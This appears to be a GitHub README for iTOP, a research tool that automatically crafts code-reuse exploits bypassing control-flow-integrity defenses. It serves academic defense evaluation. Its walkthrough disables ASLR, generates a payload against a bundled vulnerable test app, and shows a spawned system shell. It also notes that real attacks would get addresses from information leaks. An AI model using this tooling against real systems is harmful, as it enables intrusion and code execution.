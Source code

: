 # About
* This is the GitHub repository of the indirect transfer oriented programming (iTOP) tool. iTOP can be used for evaluating the potential for automated crafting of advanced code reuse attacks which can bypass state-of-the-art control flow integrity (CFI) policies. The goal is learn how these defenses can be further improved.

## Publication
to be added

## Demo Videos

* iTOP: exploit writing in ESL.
[![pic1.png](https://i.postimg.cc/6pF2ZBmX/pic1.png)](https://tinyurl.com/y6cmbvyt)

* iTOP: spawning a system shell exploit.
[![pic2.png](https://i.postimg.cc/QMW6gxNk/pic2.png)](https://tinyurl.com/y6a9gk7c)

* iTOP: spawning a system shell with no CFI policy used.
[![pic3.png](https://i.postimg.cc/9QX0qrpK/pic3.png)](https://tinyurl.com/yyvxncqj)

* iTOP: spawning a system shell with the VTint policy in-place.
[![pic4.png](https://i.postimg.cc/FFPBQ66S/pic4.png)](https://tinyurl.com/yyrso75k)


## Installation

To run iTOP, you need a python2 or pypy environment with angr and antlr4-python2-runtime installed. We recommend creating a python virtual environment. The steps to set one up with the proper packages are outlined below.

1. create python2 virtualenv using virtualenv, virtualenvwrapper, conda, pipenv, or similar::

    $ virtualenv autocoop

2. enter virtualenv & install requirements::

    source autocoop/bin/activate
    pip install -r requirements.txt

3. make sure that "." is in the $PYTHONPATH::

    export PYTHONPATH=.:$PYTHONPATH


## Running iTOP

To generate a payload with iTOP, some setup is required. To make results reproducible, ASLR has to be disabled, and the exploit generation script has to be updated with the proper base library address for your system. In a real attack, this information can be extracted using information leaks. Running the lxs script with everything configured correctly will lead to a call to 'system("/bin/sh")'.

1. disable aslr::

    $ cd exploitable_app
    $ ./disable_aslr.sh

2. run lxs::

    $ cd exploitable_app/testapp
    $ ./run.sh
    [+] allocated buffer at 0xa0000000
    [+] number of parameters supplied 3
    [+] loaded cmake-build-debug/libAPP.so at 0x7ffff7ff2000
    ...

3. update lib base address in exploit_generator.py::

    <Auto-COOP/tool/exploit_generator.py>
    ...
    config = Config("exploitable_app/nodejs/libnode.so",
                      0x7ffff7ff2000, <-- UPDATE THIS
                      0xa0000000,
                      4096,
                      )
    ...

4. generate the payload::

    $ export PYTHONPATH=.
    $ python autocoop/exploit_generator.py esl_scripts/testsuite_coop/shell.esl

5. run lxs again::

    $ cd exploitable_app/testapp
    $ ./run.sh
    [+] allocated buffer at 0xa0000000
    [+] number of parameters supplied 3
    [+] loaded cmake-build-debug/libAPP.so at 0x7ffff7ff2000
    [+] fd 3
    [+] execute w00t..
    $

6. you just spawned a shell!
